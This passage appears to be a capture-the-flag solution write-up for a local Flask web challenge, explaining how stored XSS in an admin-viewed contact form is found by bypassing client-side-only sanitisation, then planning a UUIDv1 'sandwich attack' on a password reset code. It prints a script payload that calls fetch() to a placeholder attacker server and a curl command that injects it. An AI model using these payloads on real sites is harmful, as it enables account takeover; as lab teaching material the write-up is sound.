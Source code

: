 # Solution (!)

## Finding the vulnerability (*)

Now, that we have a basic idea of how the application functions, let's discuss important things we have discovered till now. Our endgoal is to somehow change the password of `admin` user. For changing that, we will need his reset code.

Right now, we have no way to get reset code of `admin` user. Do you remember, we discovered that all our contact queries were actually being showed in the dashboard of administrator? Let's confirm the XSS first.

Let's enter a basic payload which will try to reach our server.

```html
'"><script>fetch('<SERVER_ADDRESS>')</script>
```

When we enter this payload and submit our contact query. We do not get any request on our server, why? When we look at the html code of `/contact`, we see the reason behind this.

![img](/assets/6.png)

When we submit our contact query, this `submit()` function is being called. This function first sanitizes the contents of message input box and then send a POST request with all three values (name, email and message) to `/contact` endpoint.

Developers made this function to ensure no one sends malicious HTML through their contact form, but there is a obvious flaw here: The sanitization is only being done on client-side and not on server-side. Meaning, if we directly send POST request to the server, then the contents of message field will be stored as it is. Let's quickly confirm this by sending this curl command.

```bash
curl -X POST http://127.0.0.1:1337/contact -H "Content-type: application/x-www-form-urlencoded" -d "name=test&email=test@test.com&msg='\"><script>fetch('<YOUR_SERVER>')</script>"
```

We get a request on our server after sending this curl request which means that our javascript is indeed being executed in admin dashboard.

Great, so now we can just steal admin cookies and takeover his account? The answer is No, because Flask's session cookies by default are set to be Http-Only, meaning that we can not access session cookies through Javascript.

There is another authenticated endpoint `/resetcode` which generates reset code for the user. What if we exploit XSS vulnerability to send request to `/resetcode` endpoint through admin account? This way, a reset code will be generated for `admin` user. But even if we are successful in generating reset code for that account, how will we get that reset code ?

We know that the reset code will also be present in session cookies as well but we can't access session cookies as they have HttpOnly flag set.

Previously, we saw that the application is generating UUIDv1 for reset code. After searching on google, we came to know that UUIDv1 is not safe and has a known attack called Sandwich attack. 

Read more about Sandwich attack here: https://book.hacktricks.xyz/pentesting-web/uuid-insecurities#sandwich-attack
